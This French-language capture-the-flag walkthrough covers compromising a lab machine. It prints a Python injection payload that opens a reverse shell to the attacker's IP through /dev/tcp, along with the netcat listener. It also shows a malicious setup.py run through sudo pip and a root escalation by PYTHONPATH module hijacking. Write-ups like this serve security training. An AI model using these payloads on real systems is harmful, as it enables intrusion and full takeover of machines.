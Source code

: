 # Years 5739 CTF Walkthrough

## Sommaire

1. [RCE via Injection Python](#1-rce-via-injection-python)
2. [Reverse Shell avec Netcat](#2-reverse-shell-avec-netcat)
3. [Installation du setup.py](#3-installation-du-setuppy)
4. [Élévation avec backup.py](#4-élévation-avec-backuppy)

---

## 1. RCE via Injection Python

Sur le site web : `http://10.10.132.89:8080/index`, on identifie une vulnérabilité d'injection Python.

Payload utilisé :

```python
__import__('subprocess').Popen(['bash', '-i', '-c', 'exec 5<>/dev/tcp/10.8.92.59/4444; cat <&5 | while read line; do $line 2>&5 >&5; done'], shell=False)
```

Ce payload ouvre une connexion TCP inversée vers notre machine.

## 2. Reverse Shell avec Netcat

Sur notre machine d’attaque, on écoute le port 4444 :

```bash
nc -lvnp 4444
```

Dès que la commande d’injection est exécutée, on obtient un shell distant.

🎉 **1er Flag accessible**

## 3. Installation du setup.py

Depuis le shell obtenu, on se connecte à un serveur Python (sur notre machine) et on télécharge un fichier `setup.py`.

```python
from setuptools import setup
import os

os.system("/bin/bash")

setup(
    name="evil_module",
    version="0.1",
    install_requires=[]
)
```

On installe ensuite le package comme l’utilisateur `cave-of-miracles` :

```bash
sudo -u cave-of-miracles pip3 install . -v
```

Cela nous donne un accès shell avec l’utilisateur `cave-of-miracles`.

🎉 **2ème Flag accessible**

## 4. Élévation avec backup.py

On vérifie les commandes sudo disponibles :

```bash
sudo -l
```

Résultat : on peut exécuter `/opt/backup.py` en tant que root et contrôler l’environnement Python.

On modifie un des modules importés par `backup.py`, par exemple en créant un faux module dans `/tmp` :

```python
# /tmp/fakemodule.py
import os
os.system("/bin/bash")
```

Puis on exécute :

```bash
sudo PYTHONPATH=/tmp/ /usr/bin/python3 /opt/backup.py
```

Ce qui déclenche notre shell — cette fois avec les **droits root** !

---

🎉 **3ème Flag accessible**
